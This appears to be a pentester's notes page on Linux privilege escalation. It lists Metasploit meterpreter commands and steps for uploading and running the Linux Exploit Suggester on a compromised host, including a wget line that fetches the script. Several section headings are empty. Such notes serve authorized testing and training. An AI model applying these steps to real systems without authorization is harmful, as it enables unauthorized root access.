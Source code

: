 # Linux

## Metasploit post modules

Scanning privli escalation vulnera

<pre><code><strong>meterpreter> run post/multi/recon/local_exploit_suggester
</strong></code></pre>

| Command            | Description                               |
| ------------------ | ----------------------------------------- |
| `getprivs`         | see what privileges we have               |
| <kbd>sysinfo</kbd> | information about the system              |
| `getuid`           | Zero uid on linux is always the Root user |

## &#x20;LES

LES tool is designed to assist in detecting security deficiencies for a given Linux kernel/Linux-based machine. It provides following functionality:

### **How to use**

{% stepper %}
{% step %}
### Opening temp directory

```bash
cd /tmp
```
{% endstep %}

{% step %}
### Uploading LES

```bash
meterpreter > upload <stored location/script.sh>  
```
{% endstep %}

{% step %}
### Opening shell&#x20;

```
meterpreter > shell
```
{% endstep %}

{% step %}
### Better shell

```
/bin/bash -i
```
{% endstep %}

{% step %}
### Give executable permissions

```bash
chmod +x <file>
```
{% endstep %}

{% step %}
### Execute

```bash
./file.sh
```
{% endstep %}

{% step %}
### After  results select vulnerability

Open website vulnerability and follow guide how to use it and may need to upload it to the target:Imporant always when uploading file we need to give execute perms and run it with ./file
{% endstep %}
{% endstepper %}

{% embed url="https://github.com/The-Z-Labs/linux-exploit-suggester" %}

### &#x20;Quick download

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

## Cron jobs

## SUID

## Weak Permisions

## SUDO Privileges
